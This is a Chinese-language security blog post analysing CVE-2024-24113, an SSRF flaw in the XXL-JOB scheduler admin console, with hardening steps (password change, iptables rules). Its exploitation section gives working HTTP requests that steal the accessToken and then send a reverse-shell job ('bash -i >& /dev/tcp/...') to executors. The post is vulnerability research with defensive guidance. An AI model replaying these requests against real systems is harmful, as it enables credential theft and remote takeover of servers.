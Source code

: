 #  漏洞研究(9)：XXL-JOB调度中心后台任务执行SSRF漏洞 CVE-2024-24113   
原创 罗锦海  OneMoreThink   2025-05-18 16:00  
  
1. 组件介绍  
  
1. 原理与危害  
  
1. 影响版本  
  
1. 利用方式  
  
1. 加固措施（单选）  
  
    5.1 修改默认口令  
  
    5.2 限制端口访问  
  
## 1. 组件介绍  
  
XXL-JOB是一个分布式**任务调度**  
平台，分为调度中心和执行器两部分。  
  
在调度中心添加执行器后，调度中心可以对执行器进行命令执行，属于集权系统，可以帮助攻击者批量获取服务器权限。  
  
同时，通过调度中心横向到执行器，往往可以帮助攻击者实现跨网横移，这在网络策略严格的环境中具有较大价值。  
## 2. 原理与危害  
  
调度中心后台用户向执行器下发任务时，请求中可以指定执行器的IP地址和端口号，让调度中心向该IP地址的执行器下发任务。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV91iaJgEJ1ddiazHWOv429AQbgULTGRLzsDpCjrx1KzelSsuOvRBSO41MTueEKpzbtyshJ9YzEVicUXZw/640?from=appmsg "")  
  
由于调度中心没有对该IP地址进行校验，因此用户可以指定任意IP地址，导致调度中心后台存在SSRF漏洞。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV91iaJgEJ1ddiazHWOv429AQbgYuKyZIBmRwTQTU3RS2sH5ahhic4ky8lJAicEibb0wyxAlIcLGJ7Mvc2ww/640?from=appmsg "")  
  
由于调度中心向执行器下发任务时，携带了通信密钥accessToken，因此恶意用户可以将执行器的IP地址指定为他可控的HTTP服务器，从而窃取XXL-JOB的通信密钥。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV91iaJgEJ1ddiazHWOv429AQbgOrguHicgVhCChQCm6oXmlkD9xqw6ibqvKmyaLnVydJ2MImpIfXbEWkhw/640?from=appmsg "")  
  
这在恶意用户仅获取XXL-JOB调度中心的普通用户权限时会有价值。当普通权限的恶意用户**没有任何执行器的权限**  
，或者**只有部分执行器的权限**  
时，攻击者如果想要**获取所有执行器的权限**  
，  
  
可以利用SSRF漏洞窃取accessToken，进而伪装成调度中心，与所有执行器进行调度通信，对执行器所在的服务器进行任意命令执行，从而获得执行器所在服务器的权限。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV91iaJgEJ1ddiazHWOv429AQbgrOjYSFiawo4IIdO23IFGY8lFKEsNqvmsAuJsDiabeVgg79vj3IAhOiaXg/640?from=appmsg "")  
  
参考链接： https://github.com/xuxueli/xxl-job/issues/3375  
## 3. 影响版本  
  
该漏洞已在2.5.0版本修复，受影响版本是XXL-JOB <= 2.4.2  
。  
## 4. 利用方式  
  
第一步：由于这是一个web管理后台的漏洞，因此首先需要通过弱口令、口令泄漏等方式，拿到XXL-JOB的帐号密码，并登录web管理后台，拿到Cookie。  
  
第二步：利用SSRF漏洞，窃取XXL-JOB的accessToken。  
```
POST /xxl-job-admin/jobinfo/trigger HTTP/1.1
Host: 10.58.81.107:11240
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: XXL_JOB_LOGIN_IDENTITY=7b226964223a312c22757365726e616d65223a2261646d696e222c2270617373776f7264223a226531306164633339343962613539616262653536653035376632306638383365222c22726f6c65223a312c227065726d697373696f6e223a6e756c6c7d
Content-Length: 64

id=2&executorParam=&addressList=http%3A%2F%2F10.58.81.119%3A1234

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV91iaJgEJ1ddiazHWOv429AQbgYuKyZIBmRwTQTU3RS2sH5ahhic4ky8lJAicEibb0wyxAlIcLGJ7Mvc2ww/640?from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV91iaJgEJ1ddiazHWOv429AQbgOrguHicgVhCChQCm6oXmlkD9xqw6ibqvKmyaLnVydJ2MImpIfXbEWkhw/640?from=appmsg "")  
  
第三步：利用accessToken，伪装成调度中心与执行器进行调度通信，对执行器所在的服务器执行任意命令，从而获得执行器所在服务器的权限。  
```
POST /run HTTP/1.1
Host: 10.58.81.107:9999
XXL-JOB-ACCESS-TOKEN: default_token
Content-Length: 359

{
	"jobId":1,
	"executorHandler":"demoJobHandler",
	"executorParams":"demoJobHandler",
	"executorBlockStrategy":"COVER_EARLY",
	"executorTimeout":0,
	"logId":1,
	"logDateTime":1747409048,
	"glueType":"GLUE_SHELL",
	"glueSource":"bash -i >& /dev/tcp/10.58.81.119/8888 0>&1",
	"glueUpdatetime":1747409048,
	"broadcastIndex":0,
	"broadcastTotal":0
}

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV91iaJgEJ1ddiazHWOv429AQbg2Sm3c4pE6GAtQNeZoyLRA5e3WyFQtiaKRI3KMmgHyrMrf3v0ubiaicycQ/640?from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV91iaJgEJ1ddiazHWOv429AQbgWJ6QqxjLmiaIat5EJk1f92zqVgicj2c1zW65byhH0P9aqt5F0TFf2ibCw/640?from=appmsg "")  
## 5. 加固措施（单选）  
### 5.1 修改默认口令  
  
点击右上角的欢迎 admin  
，选择修改密码，修改后会退出登录。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV91iaJgEJ1ddiazHWOv429AQbgSHzrJFTS0Mr7JYL4cdicUWgicKBLKSqYQuMFDia8Su8MUEt8uDAepgcwA/640?from=appmsg "")  
  
请注意：登录密码不应超过18位，因为前端登录时会对密码进行截取。XXL-JOB >= 2.1.1  
时前端无法改成超过18位的密码，但XXL-JOB < 2.1.1  
时可以，导致修改密码后无法登录。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV91iaJgEJ1ddiazHWOv429AQbgbAvWcU6lVpkFndqVR6Hvic2tBIpRZibCywib6vrak6A8ic8iaSibMhvH4SAg/640?from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV91iaJgEJ1ddiazHWOv429AQbgb8U8xo12qm2fJ2CcCQUicajXtHN9021fQLATcriaa8U0V8Fx3RAMA2Bw/640?from=appmsg "")  
  
此时使用默认口令登录，提示帐号或密码错误，说明漏洞修复成功。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV91iaJgEJ1ddiazHWOv429AQbg93dTmx3fAJkR6eiaQtncvrx205RfxXFfTfMEHvicHwMvkSSuZCoaEPhg/640?from=appmsg "")  
### 5.2 限制端口访问  
  
在**执行器所在的服务器**  
中配置本地防火墙，只允许调度中心访问执行器的9999端口。  
```
# 如果担心已有规则干扰，可将允许规则插入到链的顶部。
# 即时调度中心和执行器在同一台服务器中，该命令不会影响调度中心对执行器的正常通信。
iptables -I INPUT 1 -p tcp -s 10.58.81.107 --dport 9999 -j ACCEPT

# 拒绝其他所有IP访问9999端口
iptables -A INPUT -p tcp --dport 9999 -j DROP

# 永久保存规则（CentOS中）
yum install iptables-services -y && service iptables save && systemctl enable iptables

```  
  
再次对执行器进行未授权任意代码执行，如果没有响应，连接失败，说明漏洞修复成功。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV91iaJgEJ1ddiazHWOv429AQbgs48RcGy2zBa69hpQ83A4EvcuLRsPo4xoGku8HaOo6qiaP0hZibibuiaPdg/640?from=appmsg "")  
  
  
